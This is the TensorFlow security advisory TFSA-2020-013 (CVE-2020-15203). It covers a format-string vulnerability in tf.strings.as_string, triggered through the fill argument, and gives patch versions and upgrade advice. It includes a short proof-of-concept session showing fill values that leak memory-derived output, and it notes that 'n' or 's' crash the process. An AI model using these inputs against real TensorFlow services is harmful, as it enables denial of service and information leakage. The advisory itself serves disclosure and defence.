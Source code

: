 ## TFSA-2020-013: Format-string vulnerability in TensorFlow's `as_string`

### CVE Number
CVE-2020-15203

### Impact
By controlling the `fill` argument of
[`tf.strings.as_string`](https://www.tensorflow.org/api_docs/python/tf/strings/as_string),
a malicious attacker is able to trigger a format string vulnerability due to the
way the internal format use in a `printf` call is constructed:
https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/as_string_op.cc#L68-L74

This can result in unexpected output:
```python
In [1]: tf.strings.as_string(input=[1234], width=6, fill='-')
Out[1]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['1234  '],
dtype=object)>
In [2]: tf.strings.as_string(input=[1234], width=6, fill='+')
Out[2]: <tf.Tensor: shape=(1,), dtype=string, numpy=array([' +1234'],
dtype=object)>
In [3]: tf.strings.as_string(input=[1234], width=6, fill="h")
Out[3]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['%6d'],
dtype=object)>
In [4]: tf.strings.as_string(input=[1234], width=6, fill="d")
Out[4]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['12346d'],
dtype=object)>
In [5]: tf.strings.as_string(input=[1234], width=6, fill="o")
Out[5]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['23226d'],
dtype=object)>
In [6]: tf.strings.as_string(input=[1234], width=6, fill="x")
Out[6]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['4d26d'],
dtype=object)>
In [7]: tf.strings.as_string(input=[1234], width=6, fill="g")
Out[7]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['8.67458e-3116d'],
dtype=object)>
In [8]: tf.strings.as_string(input=[1234], width=6, fill="a")
Out[8]: <tf.Tensor: shape=(1,), dtype=string,
numpy=array(['0x0.00ff7eebb4d4p-10226d'], dtype=object)>
In [9]: tf.strings.as_string(input=[1234], width=6, fill="c")
Out[9]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['\xd26d'],
dtype=object)>
In [10]: tf.strings.as_string(input=[1234], width=6, fill="p")
Out[10]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['0x4d26d'],
dtype=object)>
In [11]: tf.strings.as_string(input=[1234], width=6, fill='m')
Out[11]: <tf.Tensor: shape=(1,), dtype=string, numpy=array(['Success6d'],
dtype=object)>
```

However, passing in `n` or `s` results in segmentation fault.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in 33be22c65d86256e6826666662e40dbdfe70ee83 and will
release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.

